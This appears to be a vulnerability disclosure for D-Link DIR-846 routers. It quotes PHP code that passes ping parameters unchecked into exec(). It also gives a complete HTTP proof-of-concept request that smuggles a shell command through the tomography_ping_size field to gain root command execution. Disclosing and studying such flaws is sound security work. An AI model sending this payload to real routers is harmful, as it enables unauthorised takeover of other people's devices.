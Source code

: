 # DIR-846 100A35

D-Link DIR-846 devices with firmware 100A35 allow remote attackers to execute arbitrary OS commands as root by sending a request for SetNetworkTomographySettings with shell metacharacters to /www/HNAP1/control/SetNetworkTomographySettings.php. 

 Vulnerability code 

```
    public function actionIndex()
    {
        $result['SetNetworkTomographySettingsResult'] = "FAIL";
        $option = $this->act_val;

        $ping_number_range = array("options" => array("min_range" => 1, "max_range" => 50));
        $ping_size_range = array("options" => array("min_range" => 4, "max_range" => 1472));

        if (!filter_var($option['tomography_ping_number'], FILTER_VALIDATE_INT, $ping_number_range)) {  //校验ping次数范围
            $result["message"] = "ping的次数不合法";
        } elseif (!filter_var($option['tomography_ping_size'], FILTER_VALIDATE_INT, $ping_size_range)) {  //校验ping包大小范围
            $result["message"] = "ping包大小不合法";
        } elseif (!(filter_var($option['tomography_ping_address'], FILTER_VALIDATE_IP)  //校验是否为合法IP或域名
            || check_domain($option['tomography_ping_address']))) {
            $result["message"] = "不是合法的IP或域名";
        } else {
            exec("ping -c " . $option['tomography_ping_number'] . " -s " . $option['tomography_ping_size'] . " '" . $option['tomography_ping_address'] . "' > /tmp/ping.result");
            file_put_contents("/etc/.SetNetworkTomography", json_encode($option));
            $result['SetNetworkTomographySettingsResult'] = "OK";
        }
        $this->api_response(__CLASS__, $result);
    }
```

 We can execute OS commands by constructing tomography_ping_number, tomography_ping_size or tomography_ping_address variables. 

POC

```
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: application/json
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/json
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
HNAP_AUTH: 2FB5B79A97FFF1786E87095E1782F732 1573608228175
Referer: http://192.168.0.1/Diagnosis.html
Content-Length: 227
Cookie: PHPSESSID=7017cd87a498be58666d07002a6311a8; uid=EZYpFZtE; PrivateKey=287CC82F6F640A299531BB86B455A511
Connection: close

{"SetNetworkTomographySettings":{"tomography_ping_address":"192.168.0.2","tomography_ping_number":"2","tomography_ping_size":"4 127.0.0.1&&ifconfig>/www/b.txt&&ping -c 1 ","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```
![20191113104711.png](https://github.com/Cyc1eC/D-Link/blob/master/DIR-846/20191113104711.png)
